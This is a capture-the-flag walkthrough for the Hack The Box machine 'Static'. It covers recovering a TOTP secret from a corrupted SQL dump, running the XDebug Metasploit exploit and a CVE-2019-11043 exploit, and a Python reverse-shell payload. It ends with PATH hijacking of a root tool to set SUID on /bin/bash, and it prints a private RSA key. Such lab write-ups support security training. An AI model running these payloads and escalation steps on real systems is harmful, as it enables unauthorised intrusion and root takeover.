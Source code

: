 ![STATIC](banner.png)

## Initial Foothold

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 16:bb:a0:a1:20:b7:82:4d:d2:9f:35:52:f4:2e:6c:90 (RSA)
|   256 ca:ad:63:8f:30:ee:66:b1:37:9d:c5:eb:4d:44:d9:2b (ECDSA)
|_  256 2d:43:bc:4e:b3:33:c9:82:4e:de:b6:5e:10:ca:a7:c5 (ED25519)
2222/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a9:a4:5c:e3:a9:05:54:b1:1c:ae:1b:b7:61:ac:76:d6 (RSA)
|   256 c9:58:53:93:b3:90:9e:a0:08:aa:48:be:5e:c4:0a:94 (ECDSA)
|_  256 c7:07:2b:07:43:4f:ab:c8:da:57:7f:ea:b5:50:21:bd (ED25519)
8080/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-robots.txt: 2 disallowed entries 
|_/vpn/ /.ftp_uploads/
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
```

Checking out the .ftp_uploads directory (that was mentioned in the robots.txt) on port 8080 we find a file indexing:

![ftp_uploads](ftp_uploads.png)

The warning.txt is giving us a hint on what to do here:
```
Binary files are being corrupted during transfer!!! Check if are recoverable.
```

So we use the [gzip Recovery Toolkit](https://github.com/arenn/gzrt) to recover most of the db.sql.gz:

```
CREATE DATABASE static;
USE static;
CREATE TABLE users ( id smallint unsignint  a'n a)Co3 Nto_increment,sers name varchar(20) a'n a)Co, password varchar(40) a'n a)Co, totp varchar(16) a'n a)Co, primary key (idS iaA; 
INSERT INTOrs ( id smaers name vpassword vtotp vaS iayALUESsma, prim'admin'im'd05nade22ae348aeb5660fc2140aec35850c4da997m'd0orxxi4c7orxwwzlo'
IN
```

## User

We see the username admin and already found a login page in the vpn directory http://static.htb:8080/vpn/login.php.

When loging in with `admin:admin` we are asked to present a OTP for 2FA. 

In the recovered db.sql.gz we see a totp value which looks like a secret for 2FA token generators/apps. It is 18 chars long here but we can see at the beginning of the SQL-Query that it says varchar(16) so it is supposed to be only 16 chars, the additional 2 chars are propably some strange failure from the recovery process. We only need 16 characters so we use: `orxxi4c7orxwwzlo` as our secret and use this [TOTP.app](https://totp.app/) to generate our OTPs. 

After loging in we see some kind of "dashboard":

![dashboard](dashboard.png)

The tool let us create an .ovpn file with the name we provide. However we can't connect to it until we add `vpn.static.htb` to our /etc/hosts file. We got that information from within the ovpn file.

Now we only need to add an ip route to be able to perform various tasks on the machines inside the network, as for example scans.
We do this like so:

```
sudo ip route add 172.20.0.0/24 dev tun9 

```

Scanning 172.20.0.10 will give us:

```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a9:a4:5c:e3:a9:05:54:b1:1c:ae:1b:b7:61:ac:76:d6 (RSA)
|   256 c9:58:53:93:b3:90:9e:a0:08:aa:48:be:5e:c4:0a:94 (ECDSA)
|_  256 c7:07:2b:07:43:4f:ab:c8:da:57:7f:ea:b5:50:21:bd (ED25519)
80/tcp open  http    Apache httpd 2.4.29
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 19    2020-04-03 15:18  info.php
| -     2020-03-26 09:40  vpn/
|_
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Index of /
```

The info.php file tells us that XDEBUG is enabled to let's exploit it using the metasploit module:

```
Module options (exploit/unix/http/xdebug_unauth_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   PATH     /info.php        yes       Path to target webapp
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   172.20.0.10      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       Callback host for accepting connections
   SRVPORT  9000             yes       Port to listen for the debugger
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.30.0.10      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```

GGs we got user.

## Root

For easier access we extract the private rsa key to connect to the machine:
```
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA0pNa5qwGZ+DKsS60GPhNfCqZti7z1xPzxOTXwtwO9uYzZpq/
nrhzgJq0nQNVRUbaiZ+H6gR1OreDyjr9YorV2kJqccscBPZ59RAhttaQsBqHkGjJ
QEHYKteL1D+hJ80NDd7fJTtQgzT4yBDwrVKwIUSETMfWgzJ5z24LN5s/rcQYgl3i
VKmls3lsod8ilakdDoYEYt12L4ST/exEoVl0AyD9y8m651q40k1Gz4WzPnaHAlnj
mL6CANfiNAJoc8WnqZN5ruSrWhmivmDbKLlDCO5bCCzi2zMHJKqQkcBxdWk60Qhi
17UJMV3mKVQRprvpeTR2jCMykH81n2KU46doSQIDAQABAoIBAADCHxWtkOhW2uQA
cw2T91N3I86QJLiljb8rw8sj17nz4kOAUyhTKbdQ102pcWkqdCcCuA6TrYhkmMjl
pXvxXAvJKXD3dkZeTNohEL4Dz8mSjuJqPi9JDWo6FHrTL9Vg26ctIkiUChou2qZ9
ySAWqCO2h3NvVMpsKBwjHU858+TASlo4j03FJOdmROmUelcqmRimWxgneHBAHEZj
GqDuPjmPmw7pbThqlETyosrbaB3rROzUp9CKAHzYB1BvOTImDsb6qQ+GdKwewAQf
j60myPuxl4qgY8O2yqLFUH3/ovtPTKqHJSUFBO23wzS1qPLupzu1GVXwlsdlhRWA
Amvx+AECgYEA6OOd9dgqXR/vBaxDngWB6ToVysWDjO+QsjO4OpFo7AvGhMRR+WpK
qbZyJG1iQB0nlAHgYHEFj4It9iI6NCdTkKyg2UzZJMKJgErfgI0Svkh/Kdls23Ny
gxpacxW3d2RlyAv4m2hG4n82+DsoPcN+6KxqGRQxWywXtsBsYkRb+wkCgYEA53jg
+1CfGEH/N2TptK2CCUGB28X1eL0wDs83RsU7Nbz2ASVQj8K0MlVzR9CRCY5y6jcq
te1YYDiuFvT+17ENSe5fDtNiF1LEDfp45K6s4YU79DMp6Ot84c2fBDIh8ogH0D7C
CFdjXCI3SIlvc8miyivjRHoyJYJz/cO94DsTE0ECgYA1HlWVEWz4OKRoAtaZYGA1
Ng5qZYqPxsSWIL3QfgIUdMse1ThtTxUgiICYVmqmfP/d/l+TH7RI+0RIc54a7y1c
PkOhzKlqfQSnwmwgAg1YYWi/vtvZYgeoZ4Zh4X4rOTcN3c0ihTJFzwZWsAeJruFv
aIP6nGR1iyUNhe4yq6zfIQKBgANYQNAA2zurgHeZcrMUqsNdefXmB2UGPtKH9gGE
yhU9tMRReLeLFbWAfJj2D5J2x3xQ7cIROuyxBPr58VDGky2VTzRUo584p/KXwvVy
/LaJiVM/BgUCmhxdL0YNP2ZUxuAgeAdM0/e52time8DNkhefyLntlhnqp6hsEqtR
zzXBAoGBANB6Wdk/X3riJ50Bia9Ai7/rdXUpAa2B4pXARnP1/tw7krfPM/SCMABe
sjZU9eeOecWbg+B6RWQTNcxo/cRjMpxd5hRaANYhcFXGuxcg1N3nszhWDpHIpGr+
s5Mwc3oopgv6gMmetHMr0mcGz6OR9KsH8FvW1y+DYY3tUdgx0gau
-----END RSA PRIVATE KEY-----
```

We can use that key to connect to our machine on Port 2222:
```
ssh -i static.key -P 2222 www-data@[Static-IP]
```

After further investigating from the "Web"-machine we found pki.secret
```
[-] ARP history:
db.pnet (172.20.0.11) at 02:42:ac:14:00:0b [ether] on eth0
? (172.20.0.1) at 02:42:bc:e2:be:68 [ether] on eth0
pki.secret (192.168.254.3) at 02:42:c0:a8:fe:03 [ether] on eth1
```

And it is running a php version that is vulnerable to [CVE-2019-11043](https://nvd.nist.gov/vuln/detail/CVE-2019-11043). So we used this [exploit](https://github.com/theMiddleBlue/CVE-2019-11043).

To make it run we first had to copy it to our web machine via scp. It ran successfully:

```
# python3 exploit.py --url http://192.168.254.3/index.php
[*] QSL candidate: 1752, 1757, 1762
[*] Target seems vulnerable: PHPSESSID=05b156ea034b903de6624f09c513541c; path=/
[*] RCE successfully exploited!

    You should be able to run commands using:
    curl http://192.168.254.3/index.php?a=bin/ls+/
```

As the output says we can now run commands like this:
```
curl http://192.168.254.3/index.php?a=bin/ls+/
```

But we wanted a reverse shell so we wrote a little script that will do it for us:

```py
import requests

a = '/usr/bin/python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.254.2",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")\''

for i in range(50):
    r1 = requests.get("http://192.168.254.3/index.php?a=" + a)
    print(r1.text)
```

Notice that we are using our "Web"-machines IP for the reverse shell so we also need to run our listener on it. To make that happen we also copied "nc" on it using scp.

There isn't much on the pki box except for a strange ersatool in /usr/bin. We quickly realized that it was the tool used to create our ovpn connections and we even found it's source code in /usr/src. However we didn't get much out of it so we investigated it further with [pspy](https://github.com/DominicBreuker/pspy). To get pspy running on the pki-machine we had to scp it on the web-machine and then download it from that machine using scp again:

```
www-data@pki:/tmp$ scp -i key www-data@192.168.254.2:/tmp/pspy ./pspy
```

As you can see in the screenshot below we saw that the ersatools calls different programs by it's absolut path, however it calls "openssl version" by it's relative PATH. 

![pspy](pspy.png)

We can exploit that like this:

First we add /tmp to our $PATH:
```
export PATH=/tmp:$PATH
```

Then we create our own "openssl"-script inside of /tmp
```
cd /tmp
echo "chmod u+s /bin/bash" > openssl
chmod +x openssl
```

Now we just run `ersatool` type `create` fill it with some random chars, exit out of it again.
The script now has called our own openssl script as root and executed what we echoed into it. Which is setting the SUID of root to /bin/bash.

Now we can just run

```
/bin/bash -p
```

to spawn a root shell.

